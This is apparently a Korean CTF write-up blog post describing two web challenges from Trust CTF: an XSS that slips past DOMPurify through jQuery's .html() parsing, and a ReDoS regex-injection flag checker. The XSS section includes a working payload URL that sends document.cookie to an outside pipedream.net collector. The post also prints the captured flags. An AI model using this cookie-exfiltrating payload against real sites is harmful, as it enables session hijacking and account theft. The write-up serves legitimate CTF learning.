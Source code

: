 ```yaml
---
layout: post
date: 2021-02-28 00:00:10
title: "Trust CTF Write Up"
categories: CTF
tags: [XSS, ReDos, Javascript]
author:
  - Jeongwon Jo

---
```

![](https://github.com/wjddnjs33/image/blob/main/TrustCTF/home.png?raw=true)

오늘은 디미고의 Trust라는 팀에서 CTF를 주최해서 참여를 했었습니다. 개인적인 일도 있고 해서 아침부터 참여하지 못 하고, 오후에 조금 참여를 했습니다.

---
## <span style="color:#21C587"></span> (Web) babyxss [270 pts]

> babyxss 문제는 DOMPurify Bypass로 위장한 간단한 XSS 문제입니다.

```php
<?php
require_once("secrets.php");
# This Challenge using newest version DomPurify..! Maybe unexploitable!!

if(isset($_GET['name'])) {
    header("content-security-policy: base-uri 'self'; block-all-mixed-content; connect-src 'self';");
    header('X-Frame-Options: DENY');
    echo "<h1 id='name'>Hello </h1>";
    echo '<script src="https://code.jquery.com/jquery-3.5.1.min.js"integrity="sha256-9/aliU8dGd2tb6OSsuzixeV4y/faTqgFtohetphbbj0=" crossorigin="anonymous"></script>';
    echo "<script type='text/javascript' src='https://cure53.de/purify.js'></script><script>var name='". base64_encode($_GET['name']) ."';document.getElementById('name').innerHTML += DOMPurify.sanitize($('<p>').html(atob(name)).text())</script>";
}

show_source(__FILE__);
```
문제로 들어오면 위와 같은 코드가 나오는데 보면 CSP도 걸려 있고, 밑에는 DOMPurify를 이용해서 XSS를 대응하고 있는 것을 볼 수 있습니다. 그래서 그냥 DOMPurify Bypass Payload를 아무 거나 삽입해서 트리거가 되길래 쿠키를 탈취해서 플래그를 얻었습니다.<br>

하지만 트리거가 된 이유는 DOMPurify를 우회해서가 아닙니다. DOMPurify는 최신 버전을 사용하고 있기 때문에 우회하는 건 불가능했습니다. 

```javascript
$('<p>').html(atob(name)).text()
```
하지만 위 코드를 `sanitize()` 메서드의 인자로 넘겨주고 있는 것을 볼 수 있습니다. 바로 저기서 DOM 내부에 잠시 들어가게 되는데 저때 XSS가 트리거가 되는 것 입니다. 그래서 일반적인 페이로드를 이용해서도 XSS트리거를 할 수 있습니다.

```
https://xss.trustctf.xyz/?name=%3Csvg%3E%3C/p%3E%3Cstyle%3E%3Ca%20id=%22%3C/style%3E%3Cimg%20src=1%20onerror=location.href=%27https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/?f=%27.concat(document.cookie)%3E%22%3E
```

> FLAG : TRUST{cf909172b91c8bf3f70c0e71f2809f36}

---
## <span style="color:#21C587"></span> (Web) FLAG Checker [1000 pts]

> FLAG Checker 문제는 간단한 ReDos 문제입니다. 이론만 저번에 공부하고 처음 해보는데 그냥 신기한 기법인 거 같습니다. 

```php
Wrong.... <?php
    include "./secret.php";
    $result = preg_match("/{$_GET['flag']}/", $flag);
    if ($flag === $_GET['answer'] && $result === 1) {
        echo $flag;
    }
    else {
        echo "Wrong....";
    }

    highlight_file(__FILE__);
?>
```
문제로 들어오면 위와 같이 나오는데 얼마전에 이런 문제를 본적이 있어서 바로 ReDos가 생각이 났고, 해당 기법으로 슥삭 해주니 플래그가 나왔습니다. 해당 문제와 비슷한 문제가 나중에 webhacking.kr에도 올라온다고 해서 따로 익스 코드는 올리지 않겠습니다.

`FLAG : TRUST{2ef0c0b759425eed6d3932c109e0fe74}`

---
